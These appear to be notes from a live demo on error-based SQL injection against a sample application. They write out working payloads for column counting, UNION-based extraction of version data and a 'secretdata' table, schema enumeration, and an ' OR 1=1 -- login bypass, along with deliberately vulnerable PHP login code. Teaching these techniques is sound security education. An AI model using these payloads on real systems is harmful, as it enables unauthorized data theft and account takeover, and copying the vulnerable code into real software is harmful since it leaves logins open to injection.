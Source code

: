 # Error Based: SQL Injection into String Field

Check for error based SQL Injection by using a single-quote:

```'```

When the app has verbose error messages you will easily find a Syntax error.

When the app does not have verbose error messages check for visual changes such as a table not rendering. Alternatively 
are timing or logic based techniques for "blind" SQL Injection. Not covering those today.

## Data Extraction: Get something we are not entitled to see

UNION SELECT statements can return data from additional tables or locations.

The syntax of a "UNION SELECT" requires knowledge of the number of columns in the original query.


```' ORDER BY n```

```' ORDER BY n--```

Check for errors or behaviours indicating the query failed. Find the highest number "n" which does not trigger an error.

In this case the original query had three columns. So we need to use a "UNION SELECT" with three columns:

```
' UNION SELECT null, null, null--
' UNION SELECT 'a', 'b', 'c'--
' OR 1=1 UNION SELECT 'a', 'b', 'c'--
```

These should be valid and add a row to the results table. 

Lets prove we can extract information an attacker should not know which can be of use to them:

```
' UNION SELECT null, @@version, null--
```

You can get lots of useful information using this technique.

Demo over. *Back to slides.

# Error Based: SQL Injection into Numeric Field

String datatypes are wrapped in single-quotes but numeric fields are not.
We can still check for SQL Injection by adding a single-quote to an input field since it would trigger a syntax error.
So lets try this again:

```'```

Again, for error based SQL injection this will do well. We are not covering blind injection tonight.

Exploitation is similar to string fields but we do not need to add our own single quotes. So our payloads from before 
are now:

```
40 UNION SELECT null, null, null--
40 UNION SELECT 'a', 'b', 'c'--
40 OR 1=1 UNION SELECT 'a', 'b', 'c'--
```

The difference is we need to set a value to the original numeric field or it will trigger an error. So we start each
injection with a valid integer.

So far, same old same.

## Data Extraction: Data from another table

First find the name of other database tables. In MYSQL that means asking the "information_schema.tables" table:

```
40 UNION SELECT null, table_schema, table_name FROM information_schema.tables --
```

Oh snap, what is that "appdata.secretdata" table all about? Sounds juicy.
To get something from it it helps to know the column names used in the table:

```
40 UNION SELECT null, TABLE_NAME, COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='secretdata'
```

The table has only two columns "id", and "secretdata". And lets dump the secrets!

```
40 UNION SELECT id, secret, null from secretdata
```

You can enumerate and read all information stored in the database using these techniques.

Demo over. *Back to slides.

# Error Based: Authentication Bypass

We have shown data extraction so far. The definition of SQL Injection said "Allow an attacker to alter the intended logic"
That is a broad statement and you get some cool tricks like being able to bypass authentication IF the login form is 
vulnerable to SQL Injection.

The following shows example source code for a login form:

```php
$user = $_POST['username'];
$pass = $_POST['password'];

$sql = "select * from users where username='" . $user . "' and password='" . $pass ."'";
$result=mysqli_query($conn, $sql) or die($conn->error);
```

The username and password fields come from an HTTP request issued by the user.
The values are not subjected to any input validation before they are then added into the SQL query and executed.

Most login forms operate using a statement like this:

```
SELECT * FROM users WHERE username='<user>' AND password='<pass>'
```

If we can inject into the username location we can use magic to login as any user we want without knowing any passwords.

```
PAYLOAD: ' OR 1=1 --
SELECT * FROM users WHERE username='' OR 1=1 --' AND password='<pass>'
```

We are in! It seems to say we are "admin" too, result!

Demo over. *Back to slides. 
